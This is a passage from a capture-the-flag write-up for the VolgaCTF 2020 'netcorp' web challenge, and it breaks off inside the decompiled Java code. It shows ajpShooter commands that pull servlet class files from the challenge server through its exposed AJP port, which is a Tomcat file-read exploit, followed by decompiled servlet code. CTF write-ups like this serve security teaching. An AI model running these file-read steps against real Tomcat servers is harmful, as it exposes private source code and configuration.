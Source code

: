 ```bash
		<location>/404.html</location>
	</error-page>

  
  
</web-app>
```

We see that there are two interesting servlets: `ServeScreenshot` and `ServeComplaint`. We can dump the class files for these using ajpShooter:

```bash
python ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782 8009 /WEB-INF/classes/ru/volgactf/netcorp/ServeComplaintServlet.class read -o complaint.class

python ajpShooter.py http://netcorp.q.2020.volgactf.ru:7782 8009 /WEB-INF/classes/ru/volgactf/netcorp/ServeScreenshotServlet.class read -o screenshot.class
```

These are Java class files, but we can use a decompiler (e.g. [JAD](https://varaneckas.com/jad/)) to retrieve the Java source code.

```bash
$ jad -s java *class
```

We get the two Java source code files `ServeComplaintServlet.java` and `ServeScreenshotServlet.java`.

The `ServeComplaintServlet` class doesn't have anything interesting in it, so we don't include it. However, the `ServeScreenshotServlet` class handles a route which allows for file upload.

`ServeScreenshotServlet.java`:

```java
// Decompiled by Jad v1.5.8e. Copyright 2001 Pavel Kouznetsov.
// Jad home page: http://www.geocities.com/kpdus/jad.html
// Decompiler options: packimports(3) 
// Source File Name:   ServeScreenshotServlet.java

package ru.volgactf.netcorp;

import java.io.*;
import java.math.BigInteger;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.util.Collection;
import java.util.Iterator;
import javax.servlet.*;
import javax.servlet.http.*;

public class ServeScreenshotServlet extends HttpServlet
{

    public ServeScreenshotServlet()
    {
        System.out.println("ServeScreenshotServlet Constructor called!");
    }

    public void init(ServletConfig config)
        throws ServletException
    {
        System.out.println("ServeScreenshotServlet \"Init\" method called");
    }

    public void destroy()
    {
        System.out.println("ServeScreenshotServlet \"Destroy\" method called");
```